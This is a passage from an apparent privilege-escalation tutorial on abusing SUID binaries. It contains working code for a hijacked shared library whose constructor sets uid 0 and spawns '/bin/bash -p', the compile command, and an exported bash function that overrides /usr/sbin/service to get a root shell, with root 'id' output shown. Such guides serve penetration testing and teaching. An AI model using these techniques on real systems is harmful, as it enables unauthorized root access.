 {% code title="libcalc.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```
{% endcode %}

{% code title="Compile to a shared library" %}
```shell-session
$ gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```
{% endcode %}

Then when the program loads `/home/user/.config/libcalc.so`, it will actually find our malicious library giving us a shell:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ./vulnerable
</strong># id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

## Old Bash Tricks

Bash is by far the most common shell, and has had a few updates to change certain features. In previous versions of bash, there were some tricks to exploit SUID binaries with functions and environment variables. To check the version of bash use:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ /bin/bash --version
</strong>GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
</code></pre>

### Bash < 4.2-048 (absolute path overwrite)

In these older bash versions, it was possible to define a function with the name of a full path to a program. This way, if you would specify the full path to that program, it would instead execute the function you defined with the same name. This makes it possible to overwrite absolute paths like `/usr/sbin/service` ran by SUID binaries, by defining a malicious function with the same name:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ function /usr/sbin/service { /bin/bash -p; }  # Define function to get a shell
</strong><strong>$ export -f /usr/sbin/service  # Export function
</strong><strong>$ ./vulnerable
</strong># id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>
